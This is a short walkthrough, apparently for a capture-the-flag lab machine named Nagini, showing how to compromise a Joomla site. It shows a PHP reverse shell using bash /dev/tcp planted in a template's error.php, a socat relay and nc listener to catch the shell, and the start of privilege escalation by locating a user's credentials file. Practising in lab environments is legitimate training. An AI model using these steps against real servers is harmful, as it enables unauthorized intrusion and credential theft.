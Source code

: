 let's explote joomla 

## Gaining Access | 10.10.0.137

when you are in a joomla panel the gaining access if easy because if you go at extensions >> templates>> select propostar template >> and you edit the error.php

if you edit it and if you add a php malisius code if you generate an error joomla will read your malisius code in my case i will add a reverse shell in php format and i will generate an error using the index.php

remember to use socat in order to tell them that fork all info that comes from 10.10.0.137 send it to my own machine 

example 
go to 

```bash
extensions >> templates>> select propostar template >> and you edit the error.php 
```
add your reverse shell 

```bash
system("bash -c 'bash -i >& /dev/tcp/10.10.0.136/1111 0>&1'");
```

save it and stay listen with nc -nlpv 443

with socat as well

```bash
^Croot@Aragog:/dev/shm# ./socat TCP-LISTEN:1111,fork TCP:192.168.100.53:443
```

and generate an error using the index.php on the joomla 

```bash
http://10.10.0.137/joomla/index.php/<>
```

whoami 


```bash
www-data@Nagini:/var/www/html/joomla$ whoami
www-data
```

# Privilage Escalation | 10.10.0.137

First of all we need to find ways of escalate to root 

```bash
www-data@Nagini:/var/www/html/joomla$ whoami
www-data
```
here we found an users named hermoine, snape and a archive called .creds.txt
```bash
www-data@Nagini:/$ cd /home/
www-data@Nagini:/home$ ls
hermoine  snape
www-data@Nagini:/home$ cd snape/
www-data@Nagini:/home/snape$ ls
www-data@Nagini:/home/snape$ ls -la
total 32
drwxr-xr-x 4 snape snape 4096 Apr  4  2021 .
drwxr-xr-x 4 root  root  4096 Apr  4  2021 ..
-rw-r--r-- 1 snape snape  220 Apr  3  2021 .bash_logout
-rw-r--r-- 1 snape snape 3526 Apr  3  2021 .bashrc
-rw-r--r-- 1 snape snape   17 Apr  4  2021 .creds.txt
drwx------ 3 snape snape 4096 Apr  4  2021 .gnupg
-rw-r--r-- 1 snape snape  807 Apr  3  2021 .profile
```